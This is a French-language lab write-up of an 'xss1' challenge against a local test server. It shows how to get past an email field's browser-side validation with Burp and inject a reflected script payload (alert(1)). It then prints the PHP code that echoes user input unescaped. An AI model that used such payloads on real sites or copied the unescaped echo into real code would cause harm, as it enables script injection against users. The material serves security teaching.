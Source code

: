 # xss1

## Exploitation

Le premier challenge propose de renseigner son adresse email grâce à formulaire HTML :&#x20;

![](<../../../.gitbook/assets/image (210).png>)

Le champ est de type `email` et possède donc une validation front :

```html
<input type="email" class="form-control" id="user_email" name="user_email" placeholder="email@site.com" required>
```

![](<../../../.gitbook/assets/image (30).png>)

Pour injecter ma payload il me faudra contourner cette protection, ici en passant par Burp :&#x20;

```http
POST /xss1/ HTTP/1.1
Host: localhost:9003
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:103.0) Gecko/20100101 Firefox/103.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Content-Type: application/x-www-form-urlencoded
Content-Length: 50
Origin: http://localhost:9003
Connection: close
Referer: http://localhost:9003/xss1/

user_email=<script>alert(1)</script>&submit=Envoyer
```

L'injection fonctionne et la boite de dialogue s'affiche :&#x20;

![](<../../../.gitbook/assets/image (145).png>)

## Analyse du code source

L'analyse est ici plutôt simple, car le code PHP ne possède aucune protection et ne fait qu'afficher le contenu de la variable `$_POST['user_email']` via la directive `echo` :&#x20;

```php
<?php
  if (isset ($_POST['submit']) && isset ($_POST['user_email'])) {
    $email = $_POST['user_email'];
  }
?>

<?php if (isset ($email) && !empty ($email)): ?>
  <div class="row">
    <p style="color:red;" class="well"><strong></strong><?php echo $email; ?> is not registered.</p>
  </div>
<?php endif; ?>
```
